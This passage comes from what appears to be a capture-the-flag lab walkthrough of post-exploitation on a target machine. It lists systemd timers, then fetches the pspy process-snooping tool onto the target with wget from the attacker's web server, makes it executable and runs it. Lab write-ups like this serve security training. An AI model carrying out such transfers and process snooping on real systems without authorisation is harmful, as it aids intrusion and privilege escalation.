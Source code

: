  ```console
Wed 2023-01-18 07:39:00 EST  7min left Wed 2023-01-18 07:09:01 EST  22min ago    phpsessionclean.timer        phpsessionclean.service
Wed 2023-01-18 16:39:08 EST  9h left   Wed 2023-01-18 02:41:19 EST  4h 49min ago apt-daily.timer              apt-daily.service
Wed 2023-01-18 16:58:10 EST  9h left   Tue 2023-01-17 16:58:10 EST  14h ago      systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service
Thu 2023-01-19 00:00:00 EST  16h left  Wed 2023-01-18 00:00:01 EST  7h ago       logrotate.timer              logrotate.service
Thu 2023-01-19 00:00:00 EST  16h left  Wed 2023-01-18 00:00:01 EST  7h ago       man-db.timer                 man-db.service
Thu 2023-01-19 06:00:52 EST  22h left  Wed 2023-01-18 06:51:52 EST  39min ago    apt-daily-upgrade.timer      apt-daily-upgrade.service

6 timers listed.
Pass --all to see loaded but inactive timers, too.
 ```
 - Nothing
 
 ### Confirm that the backup is running on a timer
 
 - search for pspy which is a command line tool designed to snoop on processes without need for root permissions
 - download '64 bit big, static version' from 'https://github.com/DominicBreuker/pspy'
 - move to 'transfers' folder `mv ~/Download/pspy64 /transfers`
 - with the python web server still running
 - on the target machine get the file 
 ```console
 grimmie@academy:/tmp$ wget http://10.0.2.9/pspy64
--2023-01-18 07:46:33--  http://10.0.2.9/pspy64
Connecting to 10.0.2.9:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                100%[=======================================================================>]   2.96M  --.-KB/s    in 0.05s   

2023-01-18 07:46:33 (55.5 MB/s) - ‘pspy64’ saved [3104768/3104768]
 ```
 - change mode flags `chmod +x pspy64`
 - run it `./pspy64` and wait a bit
```console
grimmie@academy:/tmp$ ./pspy64 
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2023/01/18 07:54:28 CMD: UID=33    PID=14051  | /usr/sbin/apache2 -k start 
...
```